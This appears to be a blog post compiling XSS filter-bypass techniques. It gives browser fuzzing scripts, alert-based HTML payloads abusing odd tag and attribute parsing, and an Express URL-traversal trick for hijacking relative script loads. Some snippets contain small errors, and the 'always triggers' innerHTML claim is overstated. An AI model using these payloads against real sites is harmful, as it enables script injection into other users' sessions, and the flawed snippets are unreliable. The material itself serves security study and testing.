 ```yaml
---
layout: mypost
title: A Compilation of XSS Techniques 
categories: [web]
---
```


# Introduction

This is a list of XSS techniques with brief explanations from various payload lists, blog posts, books and tweets spread across the internet.

# Filter Bypass in HTML Tags

### Space Alternatives in Separating Tag Attributes
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img${char}id=amongus>`;
    if (document.getElementById('amongus')) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) works`);
    }
}
```
Fuzzing with the above script, we find that the characters 0x9 (horizontal tab), 0xA (new line), 0xC (new page), 0xD (carriage return) and 0x2F (forward slash) all work in place of spaces in the above context. 

Additionally, no spaces are needed when an attribute is set to a quoted string before. Refer to example 3 to see what this means clearly.

*Example 1*
```html
<img/src=x/onerror=alert(1)>
```
A basic example.

*Example 2*
```html
<svg </onload ="1> alert(1)">
```
That `/` looks like it's part of a closing tag, but it isn't. In reality, it separates `<` from `onload` and creates an attribute named `<`.

*Example 3*
```html
<svg abcd=""onload=alert(1)>
```
No separation character needed.

### Symbols Allowed in Custom Tag Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<amongus${char}>`;
    if (!document.getElementsByTagName(`amongus${char}`)) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) does not work`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work as tag name characters in the above context. 

*Example 1*
```html
<w=" x="y>" ondblclick=confirm()>double click me!</w=">
```
A tag named `w="` to deceive some parsers. 

### Symbols Allowed in Attribute Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img id=amongus src=x ${char}_ onerror=alert(1)>`;
    if (!document.getElementById('amongus').hasAttribute(`${char}_`)) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) does not generate a character`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work in attribute names. If a null character (character code 0x0) is used, it will be replaced with a unicode replacement character.

*Example 1*
```html
<img src="/" =_=" title="onerror='alert(1)'">
```
Put yourself in the point of view of a parser, and you'll quickly see just how confusing this is. Separating each attribute to a new line, we see:
```html
<img 
    src="/" 
    =_=" title="
    onerror='alert(1)'
    "
>
```
The trick here is that we have an attribute named `=_` to deceive an equal signs parser and another attribute named `"` for confusing a quote parser.

### Javascript Scope in 'on' Attributes
The properties of an HTML element object are accessible within the `on` attributes of that HTML element in the global scope. 

*Example 1*
```html
<img src=x id=alert(__proto__) onerror=eval(id)>
```
The `id` property is defined on the HTMLImageElement object, so it is available in the global scope of the javascript code running from the `onerror` attribute. We further demonstrate this behaviour by alerting the `__proto__` property of our HTMLImageElement object.


### Setting innerHTML Will Always Trigger XSS
```js

element = document.createElement()
element.innerHTML = "<img src=x onerror=alert()">
// element never gets added to DOM.

```

This triggers XSS for whatever reason. Setting innerHTML of an element, even if the element literally does not exist in the DOM, will still trigger javascript execution.

### Express URL Handling

```
example.com/index.html

example.com/abcdefghijklmnop%2f..%2findex.html
```

Both of the above URLs, if sent to an express server, will return index.html.

However, in the browser, `example.com/abcdefghijklmnop%2f..%2findex.html` becomes the base URL. What this means is that relative imports will be done based off of `example.com/abcdefghijklmnop%2f..%2findex.html`. So, for example, if a script tag had `src='main.js'`, the browser would attempt to load the file from `example.com/abcdefghijklmnop%2f..%2findex.html/main.js`.

In some cases, we may be able to force `example.com/abcdefghijklmnop%2f..%2findex.html/main.js` to some valid js of our choosing. 


